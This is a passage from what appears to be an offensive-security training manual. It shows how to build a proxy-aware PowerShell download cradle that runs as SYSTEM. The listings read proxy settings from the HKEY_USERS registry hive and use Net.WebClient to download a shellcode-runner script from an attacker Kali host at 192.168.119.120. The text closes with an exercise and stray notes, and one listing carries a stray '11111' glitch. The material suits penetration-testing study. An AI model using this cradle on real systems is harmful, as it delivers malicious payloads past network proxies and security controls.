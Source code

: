 The code shown above gathers the proxy server IP address and network port from the registry 
and assigns it to the $proxyAddr variable. Now we must turn the contents of the variable into a 
proxy object that we can assign to our Net.WebClient object.
To do this, we’ll create a new object from the WebProxy190 class and assign it as the 
DefaultWebProxy that is built into all Net.WebClient objects. The constructor takes one argument, 
which is the URL and port of the proxy server, i.e.: the value we have just resolved from the 
registry.

```ps1
$proxyAddr=(Get-ItemProperty -Path 
"HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object 
System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.119.120/run.ps1")11111
```


Now we have all the pieces needed to create a proxy-aware PowerShell download cradle running 
in SYSTEM integrity. Let’s assemble all the code segments into the code shown in Listing 114.

FINAL CODE of the section:

```ps1
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = 
$key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path 
"HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object 
System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.119.120/run2.ps1")

````

Listing 114 - Full code for SYSTEM integrity proxy aware download cradle
Notice that we have changed the name of the PowerShell shellcode runner script from run.ps1 to 
run2.ps1 in the last line of the script since PowerShell may cache the file and affect our results.
When running the complete code, be aware that mapping HKEY_USERS will 
persist across reruns of the code so the PowerShell_ISE prompt must be closed 
for the full code to run if previous incremental steps have been executed.
Before executing the updated PowerShell script, we’ll make a copy of the run2.ps1 PowerShell 
shellcode runner in the Kali web root

3.7.3.1 Exercise
1. Recreate the steps in this section to obtain a HTTP request through the proxy.
need to do











